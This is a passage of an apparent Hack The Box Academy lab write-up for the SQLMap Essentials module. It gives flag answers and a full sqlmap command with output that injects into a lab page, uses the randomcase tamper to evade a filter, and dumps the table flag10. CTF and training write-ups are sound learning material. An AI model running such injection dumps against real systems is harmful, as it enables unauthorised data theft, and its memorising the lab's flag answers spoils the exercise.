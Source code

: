 **Answer**

```
HTB{700_much_r4nd0mn355_f0r_my_74573}
```

#### Question #12

**Question**

What's the contents of table `flag10`? (Case #10)

![Firefox - Case10 Primitive Protection](./assets/screenshots/sqlmap_essentials_firefox_case10_primitive_protection.png)

```javascript
--batch -T flag10 --dump --no-cast --tamper=randomcase
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case10.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case10.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.48.226:59004' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch -T flag10 --dump --no-cast --tamper=randomcase

[SNIP]

[08:54:16] [INFO] fetching current database
[08:54:16] [INFO] fetching columns for table 'flag10' in database 'testdb'
[08:54:16] [INFO] fetching entries for table 'flag10' in database 'testdb'
Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+

[SNIP]
```
